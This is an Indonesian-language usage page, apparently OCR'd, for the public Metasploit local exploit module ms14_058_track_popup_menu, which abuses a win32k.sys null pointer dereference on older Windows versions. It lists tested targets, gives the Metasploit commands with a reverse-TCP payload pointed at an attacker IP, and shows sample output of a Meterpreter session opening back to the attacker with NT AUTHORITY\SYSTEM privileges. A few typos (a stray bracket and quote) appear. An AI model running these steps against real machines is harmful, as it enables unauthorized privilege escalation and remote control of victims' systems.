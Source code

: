 # ms14_058_track_popup_menu

Modul ini mengeksploitasi `Null Pointer Dereference` pada `win32k.sys`. Kerentanan ini dapat dipicu melalui penggunaan fungsi `TrackPopupMenu`. Dalam kondisi tertentu, `null pointer dereference` ini dapat disalahgunakan pada `xxxSendMessageTimeout` untuk mencapai eksekusi kode sewenang-wenang (`arbitrary code execution`).

Modul ini telah berhasil diuji pada:
- `Windows XP SP3`
- `Windows Server 2003 SP2`
- `Windows 7 SP1` (`32-bit` dan `64-bit`)
- `Windows Server 2008` (`32-bit` dan `R2 SP1 64-bit`)

## Penulis
- Unknown
- juan vazquez]
- Spencer McIntyre
- OJ Reeves

## Platform
- `Windows`

## Arsitektur
- `x86`, `x64`

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/ms14_058_track_popup_menu'
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] win32k.sys file version: 6.1.7601.17514 branch: 17
[*] Reflectively injecting the exploit DLL and triggering the exploit...
[*] Launching msiexec to host the DLL...
[+] Process 4352 launched.
[*] Reflectively injecting the DLL into 4352...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (177734 bytes) to 192.168.1.53
[*] Meterpreter session 15 opened (192.168.1.11:4444 -> 192.168.1.53:49162) at 2025-05-17 05:58:24 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/local/ms14_058_track_popup_menu/)
